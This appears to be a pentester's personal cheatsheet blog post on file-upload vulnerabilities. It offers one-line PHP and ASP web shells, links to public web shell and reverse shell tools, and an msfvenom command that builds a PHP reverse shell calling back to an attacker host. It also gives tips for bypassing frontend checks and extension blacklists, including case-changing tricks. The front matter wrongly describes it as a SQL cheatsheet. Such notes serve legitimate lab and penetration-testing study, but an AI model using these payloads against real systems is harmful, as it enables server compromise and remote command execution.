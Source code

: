 ```yaml
---
layout: post
title: "Cheatsheet-File-Upload-Vuln"
description: Cheatsheet of basic SQL queries.
---
```


<p>These cheatsheets serve as my personal quick reference. Therefore, they’re less organized than the box walkthroughs, but I’ve shared them in case others find them useful.</p>

<h2>Web Shells</h2>

<pre>
https://github.com/Arrexel/phpbash
</pre>

<pre>
&lt;?php system($_REQUEST['cmd']); ?&gt;
</pre>
<p>.NET applications</p>
<pre>
<% eval request('cmd') %>
</pre>

<h2>Reverse Shells</h2>
<pre>
https://github.com/pentestmonkey/php-reverse-shell
</pre>

<h2>Custom Reverse shells (msfvenom)</h2>
<p>-p flag for language</p>
<pre>
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
</pre>

<h2>Frontend Filtering</h2>
<p>Check HTML for validation functions and remove or bypass using burpsuite (upload something that is allowed and intercept and change body for webshell or reverse shell).</p>

<h2>Backend Filtering</h2>
<h3>Blacklist Bypass</h3>
<p>Example of blacklist backend code:</p>
<pre>
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
</pre>
<p>NOTE: Linux is case sensitive --> can be bypassed by playing with capital letters. In Windows this will not work.</p>
